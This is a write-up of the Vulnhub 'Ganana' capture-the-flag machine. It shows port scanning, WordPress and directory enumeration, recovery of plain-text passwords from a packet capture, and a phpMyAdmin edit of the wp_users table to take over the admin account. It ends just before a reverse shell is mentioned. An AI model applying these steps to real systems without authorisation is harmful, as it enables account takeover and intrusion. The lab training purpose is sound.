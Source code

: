 ```yaml
---
title: Vulnhub - Ganana
description: My writeup on Ganana box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://i.imgur.com/aLcGAEB.png)

Hi all, i really enjoyed pwning this VM! :)

You can find the machine there > [Ganana](https://www.vulnhub.com/entry/ganana-1,497/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.11
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-28 14:40 EEST
Nmap scan report for debian.zte.com.cn (192.168.1.11)
Host is up (0.00041s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE  VERSION
22/tcp   closed ssh
80/tcp   open   http     Apache httpd (PHP 7.3.17)
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache
|_http-title: Ganana
443/tcp  open   ssl/http Apache httpd (PHP 7.3.17)
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache
|_http-title: Ganana
| ssl-cert: Subject: commonName=www.example.com/organizationName=Bitnami
| Not valid before: 2020-06-06T10:55:45
|_Not valid after:  2030-06-04T10:55:45
6777/tcp open   ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
MAC Address: 08:00:27:A1:34:AB (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```

Let's check FTP first since we have anonymous allowed.

```
$ ftp $ip 6777
Connected to 192.168.1.11.
220 (vsFTPd 3.0.3)
Name (192.168.1.11:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        112          4096 Jun 06 12:51 .
drwxr-xr-x    3 0        112          4096 Jun 06 12:51 ..
drwxr-xr-x    2 0        0            4096 Jun 06 12:51 .Welcome
226 Directory send OK.
ftp> cd .Welcome
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jun 06 12:51 .
drwxr-xr-x    3 0        112          4096 Jun 06 12:51 ..
-rw-r--r--    1 0        0              82 Jun 06 12:49 .Note.txt
226 Directory send OK.
ftp> get .Note.txt
local: .Note.txt remote: .Note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .Note.txt (82 bytes).
226 Transfer complete.
82 bytes received in 0.00 secs (90.7915 kB/s)
ftp> exit
221 Goodbye.
$ cat .Note.txt 
Hey Welcome to the ORG!!! Hope you have a wonderfull experence working with US!!!
```

Useless, let's check http now, we can see that a wordpress site running there : 

```html
<meta name="generator" content="WordPress 5.4.2"/>
```

Let's run wpscan on it.

```
$ wpscan --no-banner --url http://$ip/ --enumerate p
[+] URL: http://192.168.1.11/ [192.168.1.11]
[+] Started: Sun Jun 28 14:47:03 2020

..junk data..

[i] Plugin(s) Identified:

[+] stop-user-enumeration
 | Location: http://192.168.1.11/wp-content/plugins/stop-user-enumeration/
 | Latest Version: 1.3.25 (up to date)
 | Last Updated: 2020-06-24T16:29:00.000Z
 |
 | Found By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.3.25 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://192.168.1.11/wp-content/plugins/stop-user-enumeration/frontend/js/frontend.js?ver=1.3.25
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.1.11/wp-content/plugins/stop-user-enumeration/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.1.11/wp-content/plugins/stop-user-enumeration/readme.txt
```

WOW, that means we can't enumerate users, let's test it out.

```
$ wpscan --no-banner --url http://$ip/ --enumerate u
[+] URL: http://192.168.1.11/ [192.168.1.11]
[+] Started: Sun Jun 28 14:48:58 2020

..junk data..

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <======================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] No Users Found.
```

And we cant also visit admin panel. When we visit `/wp-admin` redirect us to `/404` crazy. Let's run `gobuster` for further enumeration.

```
$ gobuster dir -q -u http://$ip/ -w /root/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -x php,txt,html -o gobuster.txt
/wp-content (Status: 301)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/logout (Status: 403)
/register (Status: 302)
/feed (Status: 301)
/rss (Status: 301)
/index.php (Status: 301)
/phpmyadmin (Status: 301)
/wp-feed.php (Status: 301)
/dashboard (Status: 302)
/secret (Status: 302)
/0 (Status: 301)
/embed (Status: 301)
/tasks (Status: 200)
/tasks.txt (Status: 200)
```

Here we go, the interesting stuff :

```
/phpmyadmin
/secret -> admin panel
/tasks
```

The most important thing here is the `/tasks` when we visit it we can see :

```
Hey Jarret Lee!

Do manage the office as the admin is away for a few weeks! 
Admin has created an other temp account for you and details in a pcapng file. 
```

And we can find the `.pcapng` file as `jarret.pcapng` : 

```
$ wget -q http://$ip/jarret.pcapng
$ file jarret.pcapng 
jarret.pcapng: pcapng capture file - version 1.0
```

## Analyzing pcapng file with wireshark

`.pcapng` -> packet capture file

`wireshark` -> is a network protocol analyzer

Follow my steps :

![](https://i.imgur.com/e1jen8i.png)

![](https://i.imgur.com/anx63R6.png)

Now we can apply filters, because we want to search for plain text credentials on http we will apply this filter :

`http.request.method==POST`

![](https://i.imgur.com/mR6e3yX.png)

All the credentials : 

```
username : jarretlee
passwords :
1) nopassword
2) jarretlee
3) passwordis jarret
4) jarretLEE
5) NoBrUtEfOrCe__R3Qu1R3d__
```

After some tries only the `jarretlee:NoBrUtEfOrCe__R3Qu1R3d__` works.

When we login into the panel we can see this post :

![](https://i.imgur.com/AN8EUEB.png)

Let's decode it :

```
$ echo "QGx3YXlzLUAtU3VwM3ItU2VjdXIzLXBAU1N3MFJkISE" | base64 -d
@lways-@-Sup3r-Secur3-p@SSw0Rd!!
```

I got stuck here for lot of minutes.. because i totally forgot of `phpmyadmin` haha silly me :D

`phpmyadmin` ->  for administration of MySQL over the web

We can login in with `:jarretlee:@lways-@-Sup3r-Secur3-p@SSw0Rd!!`

Of course we will focus on `wp_users` table :

![](https://i.imgur.com/o4amxj5.png)

Here we will do a little trick, probably user `charleywalker` is the admin, let's change his password. Follow my steps : 

![](https://i.imgur.com/5gm1fFA.png)

![](https://i.imgur.com/6gCqoj6.png)

![](https://i.imgur.com/539FDop.png)

We're in as `charleywalker:pwned` let's spawn a reverse shell.
